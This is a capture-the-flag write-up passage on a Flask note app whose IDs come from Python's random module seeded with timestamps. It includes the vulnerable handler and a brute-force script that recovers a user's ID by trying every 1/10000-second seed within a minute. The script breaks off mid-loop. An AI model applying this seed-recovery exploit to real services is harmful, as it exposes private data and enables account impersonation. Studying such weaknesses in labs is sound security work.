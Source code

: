 ```py{17,30}
                db.session.add(user)
                db.session.commit()
                session['username'] = username

            timestamp = round(time.time(), 4)


            post_at = datetime.datetime.fromtimestamp(timestamp, tz=datetime.timezone.utc).strftime('%Y-%m-%d %H:%M UTC')

            random.seed(user_id + post_at)
            note_id = get_random_id()


            note = Note(user_id=user_id, note_id=note_id,
                        title=title, text=text,
                        prv=prv, post_at=post_at)
            db.session.add(note)
            db.session.commit()
            return redirect(url_for('index'))

        else:
            return render_template("create.html", form=form)
    except Exception as e:
        pass
```
For the first post of a user, his `user_id` is based of the current system time, rounded off to 4 decimal places. Then, the `note_id` is based of his `user_id` and the current system time, but formatted to only minute-accuracy (`post_at`). The `user_id` is not known to us, but all the posts' `note_id` and `post_at` is known.

Thus, for the initial post of a user, knowing the `post_at`, we can brute force the exact time of creation in 4 decimal places to generate a `user_id`. We can verify if it is correct by generating the `note_id` from this `user_id` and `post_at` and matching it with the actual `note_id`.

```py
import string
import random
import time
from dateutil.parser import parse
from datetime import datetime
import pytz

# From the app.py
def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])


def gen_userid(time):
    random.seed(time)
    return get_random_id()

target_time_str = "2021-01-15 02:31 UTC"
target_id = "6mxesnyaqdtaj7tipr7enopo89c40msr"

target_time = datetime.strptime(target_time_str, "%Y-%m-%d %H:%M UTC")
target_time = target_time.replace(tzinfo=pytz.UTC)
target_time = target_time.timestamp()

for i in range(60 * 10000 +1):
    t = target_time + (i/10000)
    random.seed(t)
    user_id = get_random_id()
```